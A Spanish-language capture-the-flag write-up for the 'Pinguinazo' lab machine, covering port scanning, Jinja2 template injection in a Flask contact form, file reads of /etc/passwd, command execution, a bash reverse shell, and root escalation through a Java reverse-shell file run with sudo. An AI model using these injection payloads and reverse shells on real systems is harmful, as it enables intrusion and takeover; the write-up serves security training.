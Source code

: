 - Tags: #Pinguinazo #Flask #ReverShellJava
---
[Maquina Pinguinazo](https://mega.nz/file/xeNVTA5B#RXNj1lKF2Gab1HwAWE1SdMtb8CFPJh4le7jsSWjZ7qc) -> Enlace de descarga al laboratorio

```bash
7z x pinguinazo.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh pinguinazo.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
ping -c 172.17.0.2 # Realizamos una traza ICMP para determinar la conectividad con el target

wichSystem.py 172.17.0.2 # Gracias al ttl determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos y Servicios:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-60000 # Usamos nuestra herramienta para deterctar puertos expuestos en el target
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos deteccion de puertos expuestos
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
nmap -sC -sV -p5000 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que cooren detras de estos puetos.
```

### Fase Enumeracion Web:
```bash
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3) # Tenemos corriendo flask
```

```bash
whatweb http://172.17.0.2:5000 # Realizamos deteccion de tecnologias para este servicio web

Email[admin@pingulab.lab] # Tenemos un correo con el nombre de un potencial usuario
```

```bash
nmap --script http-enum -p 5000 172.17.0.2 # No reporta nada critico
```

```bash
http://172.17.0.2:5000/ # Tenemos de pagina principal un formulario de contacto
```

```bash
# No obtuvimos nada
gobuster dir -u http://172.17.0.2:5000/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
gobuster dir -u http://172.17.0.2:5000/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x py,txt,html,css,js,php,php.back
```

### Fase Explotacion:
```bash
{{7*7}} # Logramos inyectar codigo en la plantilla de jinja2
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }} # Apuntamos por este archivo para ver usuarios del sistema

pinguinazo # Usuario valido del sistema
```

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }} # Inicamos ejecucion remota de comandos.
```

El comando nos retorna que el servicio esta corriendo bajo el usuario: **( pinguinazo )**, De esta manera cuando ganemos acceso estaremos con esa sesion.

### Fase Intrusion:
```bash
nc -nlvp 443 # Nos ponemos en escucha.

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "exec bash -i &>/dev/tcp/$IP/$PORT <&1"').read() }}
```

### Fase Escalada Privilegios:
**Nota** -> Tenemos capacidad de ejecutar el binario de **java** con privilegios de root.
Nos crearemos una **reverShell** con **java** bajo el nombre de **( shell.java )** en el directorio **tmp** para poder elevar privilegios
```java
public class shell {
   public static void main(String[] args) {
       Process p;
       try {
           p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/444 0>&1");
           p.waitFor();
           p.destroy();
       } catch (Exception e) {}
   }
}
```

```bash
nc -nlvp 443 # Nos ponemos en escucha

sudo /usr/bin/java /tmp/shell.java # ejecutamos la shell
```

```bash
root@6dd7550e5bde:/tmp# whoami

root # Logramos elevar privilegios a root.
```